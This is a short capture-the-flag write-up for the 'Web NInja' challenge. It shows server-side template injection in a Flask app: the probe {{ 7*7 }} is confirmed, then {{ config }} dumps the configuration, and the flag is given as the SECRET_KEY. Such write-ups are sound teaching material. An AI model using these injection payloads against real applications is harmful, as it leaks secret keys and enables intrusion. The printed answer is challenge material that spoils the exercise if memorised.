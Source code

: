 ## Web NInja

Tags : `n00b19CTF`, `web`

h4ck3y3 loved Ninja hthodi in his childhood.In memory of it made this interesting challenge.Can you find the flag?

[Link](http://hack.bckdr.in:10005/)

Created by: Aniket Mathur

No. of Correct Submissions: 25


---

Seeing the source file, it seems fine, looking into request headers reveals it's a Flask application. Knowing about SSTI, it was fairly easy to test `{{ 7*7 }}`

And, it responded with `49`. Wo0t!

Payload : `{{ config }}`



Output :


Answer

```
You Entered &lt;Config {&#39;JSON_AS_ASCII&#39;: True, &#39;USE_X_SENDFILE&#39;: False, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;SECRET_KEY&#39;: &#39;CTF{N00b_kn0w5_50m3_fl45ky_57uff}&#39;, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SERVER_NAME&#39;: None, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;TESTING&#39;: False, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False}&gt;
```

--> CTF{N00b_kn0w5_50m3_fl45ky_57uff}